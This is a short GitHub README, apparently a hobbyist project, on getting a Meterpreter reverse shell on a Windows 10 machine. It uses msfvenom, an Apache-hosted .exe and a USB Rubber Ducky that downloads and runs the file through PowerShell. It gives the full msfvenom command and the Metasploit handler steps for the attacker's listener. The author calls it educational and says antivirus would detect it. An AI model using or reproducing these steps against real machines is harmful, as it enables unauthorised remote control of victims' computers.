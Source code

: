 # Ducky_reverse_tcp_shell
Uses the metasploit framework and the USB-RubberDucky to create a reverse- shell (without bypassing any AntiMalwareScanner -> not effective)

AttackerMachine: Kali Linux (2022.1)connected to the targets Network

TargetMachine: Windows 10 Home, Windows Defender: realtime monitoring off, admin privileges 


1. Create a payload to be executes on the target machine.

msfvenom: payload gnerator of the Metasploit framework

payload: windows/meterpreter/reverse_tcp

filetype: .exe (for windows)

Directory: /var/www/html/yourfile.exe 

--> sets the directory of the malicious file to the html directory of my machine. To Host this small server ill use apache2. 

Command: sudo service apache2 start

Command2: msfvenom -p windows/meterpreter/reverse_tcp LHOST your.ip.addr.ess LPORT 4444 -f exe -o /var/www/html/Yourfile.exe

2. Setup the listening Machine(Attacker)

msfconsole

msf6: use exploit/multi/handler

msf6: set payload windows/meterpreter/reverse_tcp

msf6: set LHOST and LPORT

msf6: exploit

3. Ducky Setup:

Encode and flash the DuckyCode file on the Ducky

insert the USB-RubberDucky

--> This payload downloads and executes the hosted .exe file via Powershell. Any AntiMalware Software will recognize this so its jsut a educational project -> Meterpreter session should open in the msfconsole 

Mission complete
